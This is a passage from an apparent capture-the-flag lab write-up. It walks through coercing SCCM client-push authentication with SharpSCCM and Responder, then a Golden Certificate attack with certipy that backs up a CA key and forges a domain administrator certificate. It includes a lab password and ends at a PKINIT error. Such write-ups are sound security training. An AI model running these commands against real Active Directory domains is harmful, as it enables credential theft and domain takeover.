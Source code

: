 <img src="https://i.imgur.com/dUOUw0g.png"/>

## SCCM Coercion

With SharpSCCM https://github.com/Mayyhem/SharpSCCM we can cause an authentication coercion by Client Push Installation by obtaining NTLMv2 challenge response of the user which is running SCCM with local admin privilege on the system, capturing it through responder

```bash
SharpSCCM.exe invoke client-push -t 10.8.0.136
```

<img src="https://i.imgur.com/mCTt84u.png"/>

<img src="https://i.imgur.com/xeJ4jCp.png"/>
<img src="https://i.imgur.com/Y5sZTRf.png"/>
<img src="https://i.imgur.com/Hgthjgm.png"/>

## Escalating Privileges through Golden Certificate

But sccadmin doesn't have any ACLs as we saw from bloodhound, so the only thing left here is to enumerate ADCS, running `certuil` on MS01 to enumerate CA (Certificate Authority) server

<img src="https://i.imgur.com/Zf6SJZF.png"/>

So we basically have admin access on CA server which means we can extract the CA certificate and private key, with that forging a certificate for domain admin through which we can obtain the NTHash or TGT of domain admin, this is known as Golden Certificate attack.

Using `certipy` we can take backup of CA certificate and private key

```bash
certipy ca -u sccadmin -p '7ujm&UJM' -target-ip MS01.push.vl -backup
```

<img src="https://i.imgur.com/R4fz8eL.png"/>

With the certificate and private key obtained, forging domain admin's certificate

```bash
certipy forge -ca-pfx CA.pfx -upn administrator@push.vl -subject 'CN=Administrator,CN=Users,DC=PUSH,DC=VL'
```

<img src="https://i.imgur.com/fmv5R6Q.png"/>

But when trying to request TGT/NTHash we'll face an error, `KDC_ERROR_CLIENT_NOT_TRUSTED (Reserved for PKINIT)` 

<img src="https://i.imgur.com/UTBPrm2.png"/>

Which is an indication that DC does not support the PKINIT authentication which is a pre-authentication allowing to retrieve either TGT or NTHash, having a read on this article, it's still possible to abuse this since we have the administrator's certificate we can do the following attacks https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html?ref=7ms.us
